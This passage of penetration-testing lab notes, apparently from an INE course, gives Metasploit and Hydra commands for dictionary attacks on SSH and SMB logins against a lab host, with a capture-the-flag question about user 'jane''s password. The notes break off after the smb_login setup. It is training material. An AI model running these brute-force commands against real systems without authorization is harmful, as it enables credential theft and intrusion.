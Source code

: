 The following username and **password dictionary** will be useful:
- /usr/share/metasploit-framework/data/wordlists/common_users.txt 
- /usr/share/metasploit-framework/data/wordlists/common_passwords.txt

```shell
# Using Metasploit
msfconsole -q
use auxiliary/scanner/ssh/ssh_version
set RHOSTS <target_IP>
exploit

# Bruteforce with metasploit
use auxiliary/scanner/ssh/ssh_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set STOP_ON_SUCCESS true
exploit

sessions
sessions -i 1
find / -name "flag"
cat /flag

# Bruteforce with Hydra
hydra
-L /usr/share/metasploit-framework/data/wordlists/common_users.txt 
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
<target_IP> -t 4 ssh

# Acess SSH
ssh <username>@<target_IP>
ls /
find / -type f -name "*flag*" 2>/dev/null
cat /flag
```

### 1.4. Exploiting SAMBA

**SMB (Server Message Block)** is a network file sharing protocol that allows applications and users to read and write to files and request services from server programs in a computer network. In this lab we will look at the dictionary attack on SMB server.

**Objective**: Answer the following questions:

1. What is the password of user “jane” required to access share “jane”? 

*Use smb_login metasploit module with password wordlist /usr/share/wordlists/metasploit/unix_passwords.txt*

```shell
use scanner/smb/smb_login
set RHOSTS <target_IP>
set SMBuser jane
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
```
